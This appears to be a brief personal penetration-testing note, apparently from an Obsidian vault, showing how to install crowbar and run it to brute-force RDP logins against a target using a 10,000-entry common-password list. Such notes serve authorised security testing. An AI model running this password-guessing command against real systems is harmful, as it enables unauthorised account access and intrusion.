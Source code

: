```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
sudo apt install crowbar
```

```bash - kali
crowbar -b rdp -s $TARGET/32 -u $USER -C /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -n 1
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

